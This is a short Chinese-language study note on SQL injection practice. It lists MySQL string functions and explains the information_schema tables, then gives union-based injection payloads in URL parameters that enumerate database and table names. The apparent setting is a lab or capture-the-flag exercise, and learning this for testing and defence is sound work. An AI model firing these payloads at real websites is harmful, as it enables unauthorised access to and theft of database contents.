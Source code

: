 substr()：返回一个字符串的一部分

mid()：返回一个字符串的一部分

left()：返回字符串左面的几个字符

right()：返回字符串右面的几个字符

ord()：返回字符串第一个字符的**ASCII**值

ascii()：字符串的**ASCII**代码值

if()：\> select if (1>2,2,3);  ->3

reverse()：返回字符串str并反转字符串的顺序



# SQL注入练习

## MySQL 5.0及以上默认库

information_schema

- schemata						所有数据库的名字
  - schema_name		数据库名
- tables                              所有表的名字
  - table_schema		 表所属数据库的名字
  - table_name             表的名字
- columns                          所有字段的名字
  - table_schema		 字段所属数据库的名字
  - table_name             字段所属表的名字
  - column_name         字段的名字



## Payload构造

### union联合注入

1. **爆库**

   ```
   ?xxxx=0' union select 1,database() --+		//判断闭合类型
   
   ?xxxx=0' union select 1,group_concat(schema_name)from(information_schema.schemata) --+
   ```

2. **爆表（database()可以替换成，爆库查到的库名）**

   ```
   ?xxxx=0' union select 1,group_concat(table_name),3 from information_schema.tables where table_schema="database()" --+
   
   ?username=1' union select 1,2,group_concat(table_name) from information_schema.columns where table_schema = 'geek'%23
   ```
